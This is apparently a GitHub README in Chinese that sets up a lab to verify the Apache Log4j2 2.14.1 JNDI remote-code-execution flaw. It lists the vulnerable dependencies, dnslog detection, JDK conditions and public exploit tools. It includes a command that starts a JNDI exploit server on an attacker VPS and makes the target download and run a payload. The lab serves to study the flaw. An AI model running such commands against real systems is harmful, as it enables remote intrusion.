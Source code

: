 # Apache Log4j2 RCE 验证环境
> Since from 2021.12.09

## Some Ref
https://mp.weixin.qq.com/s/yck74F9p9QhVw_3ykzVoSg

## 搭建环境
maven引入相关包及存在漏洞版本范围
```xml
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
```
![0](images/0.png)

## 检查
#### 利用dnslog探测是否使用
![0](images/2.png)

#### ldap结合jndi利用RCE
jdk版本有关，JDK 11.0.1、8u191、7u201、6u211之后需要手动设置trustURLCodebase为true
> 关于此详细学习可参考 https://blog.0kami.cn/2020/03/01/java/jndi-with-ldap/

利用方式，可结合jndi注入工具，例如[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit) 、[fastjson_rce_tool](https://github.com/wyzxxz/fastjson_rce_tool) 、 [JNDIExploit](https://github.com/feihong-cs/JNDIExploit) 
> 还可结合工具实现多种已公开回显方式、内存马注入方式

```bash
# 
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open -a /System/Applications/Calculator.app"  -A your_vps_ip
```
![1](images/1.png)

#### Web
> TODO

![3](images/3.png)

#### About
https://github.com/apache/logging-log4j2/tags